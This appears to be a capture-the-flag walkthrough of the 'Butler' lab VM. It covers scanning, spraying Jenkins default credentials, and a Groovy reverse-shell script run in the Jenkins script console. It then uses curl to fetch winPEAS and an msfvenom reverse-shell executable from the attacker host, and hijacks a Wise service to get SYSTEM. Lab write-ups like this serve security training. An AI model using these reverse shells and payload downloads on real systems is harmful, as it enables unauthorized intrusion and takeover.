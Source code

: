# Butler

## Ennumeration <a href="#ennumeration" id="ennumeration"></a>

```
sudo netdiscover -r 10.0.2.0/24

 10.0.2.80       08:00:27:59:23:51      1      60  PCS Systemtechnik GmbH                                                                                  
```

* nmap

```
nmap -T4 -p- -A 10.0.2.80      

Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-16 14:14 EST
Nmap scan report for 10.0.2.80
Host is up (0.00025s latency).
Not shown: 65523 closed tcp ports (conn-refused)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
8080/tcp  open  http          Jetty 9.4.41.v20210516
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.41.v20210516)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: BUTLER, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:59:23:51 (Oracle VirtualBox virtual NIC)
| smb2-time: 
|   date: 2022-02-17T03:18:23
|_  start_date: N/A
|_clock-skew: 7h59m58s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 267.15 seconds
```

## Jenkins <a href="#jenkins" id="jenkins"></a>

[http://10.0.2.80:8080/](http://10.0.2.80:8080/)

* Password spraying with Cluster bomb inside Burp Suite

Found

user: Jenkins pass: Jenkins

Manage Jenkins -> Scrip console

```
http://10.0.2.80:8080/script
```

Search on google for groovy remote shell

* Attacker machine

```
nc -nvlp 8044
```

* Jenkins Console

```
String host="10.0.2.10";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

* Result

```
nc -nvlp 8044                                                                                                                                     127 ⨯
listening on [any] 8044 ...
connect to [10.0.2.10] from (UNKNOWN) [10.0.2.80] 50814
Microsoft Windows [Version 10.0.19043.928]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files\Jenkins>whoami
whoami
butler\butler

C:\Program Files\Jenkins>
```

### Privilege escalation <a href="#privilege-scalation" id="privilege-scalation"></a>

[PEASS-ng](https://github.com/carlospolop/PEASS-ng)

Download the X64 version for windows

Can use the `python3 -m http.server 80` to create a socket and connection or download directly inside the machine

```
curl http://10.0.2.10/winPEASx64.exe --output winpeas.exe

winpeas.exe
```

* The juicy part of the output

```
����������͹ Scheduled Applications --Non Microsoft--
� Check if you can modify other users scheduled binaries https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries                                                                                                                                              
    (Lespeed Ltd.) Wise Care 365.job: C:\Program Files (x86)\Wise\Wise Care 365\WiseTray.exe -StartTray
    Permissions file: Administrators [AllAccess]
    Permissions folder(DLL Hijacking): Administrators [AllAccess]
    Trigger: At log on of any user
   =================================================================================================

    (Lespeed Ltd.) Wise Turbo Checker.job: C:\Program Files (x86)\Wise\Wise Care 365\WiseTurbo.exe 
    Permissions file: Administrators [AllAccess]
    Permissions folder(DLL Hijacking): Administrators [AllAccess]
    Trigger: At 5:35 AM every day
   =================================================================================================
```

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

With that, we can put an executable in this path, and it will treat as part of the service

* Generate reverse shell with msfvenom

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.10 LPORT=7777 -f exe > Wise.exe
```

* Download and execute malware

On attacker machine, open another shell

```
nc -nvlp 7777
```

On vulnerable machine

```
cd "C:\Program Files (x86)\Wise"
curl http://10.0.2.10/Wise.exe -o Wise.exe

sc stop WiseBootAssistant
sc start WiseBootAssistant
```

```
nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.0.2.10] from (UNKNOWN) [10.0.2.80] 49695
Microsoft Windows [Version 10.0.19043.1526]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

\
